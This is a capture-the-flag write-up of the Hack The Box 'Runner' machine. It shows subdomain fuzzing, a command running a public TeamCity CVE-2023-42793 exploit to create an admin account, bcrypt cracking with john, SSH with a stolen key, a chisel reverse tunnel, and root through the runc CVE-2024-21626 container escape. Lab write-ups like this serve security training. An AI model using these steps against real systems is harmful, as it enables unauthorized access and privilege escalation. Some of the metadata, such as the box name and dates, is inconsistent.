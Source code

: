 ```yaml
---
title:  HTB - Runner
date: 2023-06-07 12:17:34 -0400
categories: [hackthebox , Runner]
tags: [HackTheBox, Port Forwarding, wfuzz, TeamCity, ssh, john, chisel, portainer, docker,fuzz]
image:
  path: /assets/img/post/runner/runner-card.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Runner.
---
```


## Box Info

| Name                  | Bizness          | 
| :-------------------- | ---------------: |
| Release Date          | 08 Jun, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Medium           |

## Enumeration

### Nmap

![Image](/assets/img/post/runner/0.png)

### Resolution DNS

```bash
echo "10.10.11.13 runner.htb | sudo tee -a /etc/hosts
```

### Scanning SubDomain

```bash
wfuzz -c -w /usr/share/wordlists/amass/shubs-subdomains.txt --hc 400,404,403,302 -H "Hosts: FUZZ.runner.htb" -u http://runner.htb -t 100
```

![Image](/assets/img/post/runner/1.png)

```bash
Whatweb http://runner.htb
```
## CVE-2023-42793 for Jet Brains

We can see the version of `TeamCity build management server`.

![Image](/assets/img/post/runner/2.png)

Googling `Teamcity 2023.05.3` exploit i found a `RCE` vulnerability for it.

![Image](/assets/img/post/runner/3.png)

PoC[^poc]: <https://github.com/Zyad-Elsayed/CVE-2023-42793>

```bash
python3 exploit.py -u http://teamcity.runner.htb -n test2 -p test122 -e test2@test.com
```

![Image](/assets/img/post/runner/4.png)

The script exploits to create an admin account on a TeamCity server. It sends a POST request to the target URL to create an admin user with specified or random credentials.

![Image](/assets/img/post/runner/5.png)

## SSH

Once inside, I enumerate these sections and found in Diagnostics make a backup and storage in a zip file and can we display the folders and found id_rsa.

![Image](/assets/img/post/runner/6.png)

We go to download and save for login with ssh.

![Image](/assets/img/post/runner/7.png)

Wait.. but dont have a user for login with ssh...

![Image](/assets/img/post/runner/8.png)

We also found users and there hashes in same folder.

![Image](/assets/img/post/runner/9.png)

## Crack Hash

We go to crack the password for it.

![Image](/assets/img/post/runner/10.png)

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash.txt
```
Using default input encoding: UTF-8 Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3]) Remaining 1 password hash Cost 1 (iteration count) is 128 for all loaded hashes Will run 2 OpenMP threads

Password: `piper123`

Till now we have one id_rsa file, two users (Methew, jhon),password for Methew.

`ssh -i id_rsa john@10.10.11.13`

![Image](/assets/img/post/runner/12.png)

![Image](/assets/img/post/runner/11.png)

## Port Forwarding

```bash
netstat -nltp
ss -nltpu
```

127.0.0.1:9000 its potential, I’ll be employing Chisel for port forwarding.

![Image](/assets/img/post/runner/13.png)

```bash
chisel server -p 6150 --reverse (Attack Machine)
./chisel client 10.10.14.68:6150 R:9000:127.0.0.1:9000 (Victim machine)
```

![Image](/assets/img/post/runner/14.png)

We go to our port 9000

![Image](/assets/img/post/runner/15.png)

## Docker

Login with credentials `matthew` - `piper123`

<https://nitroc.org/en/posts/cve-2024-21626-illustrated/#how-docker-engine-calls-runc>

![Image](/assets/img/post/runner/16.png)

## CVE-2024-21626 for Docker

![Image](/assets/img/post/runner/17.png)

the path `/proc/self/id/8` is from the [CVE-2024-21626](https://nitroc.org/en/posts/cve-2024-21626-illustrated/#how-docker-engine-calls-runc) - [PoC - GitHub](https://github.com/NitroCao/CVE-2024-21626?tab=readme-ov-file)

![Image](/assets/img/post/runner/18.png)

Now we go to console

![Image](/assets/img/post/runner/19.png)

Execute a `/bin/bash` as root

![Image](/assets/img/post/runner/20.png)

Just login as root and look the folder `root` for the flag

![Image](/assets/img/post/runner/21.png)

Root

#### Source
[^poc]: <https://github.com/Zyad-Elsayed/CVE-2023-42793>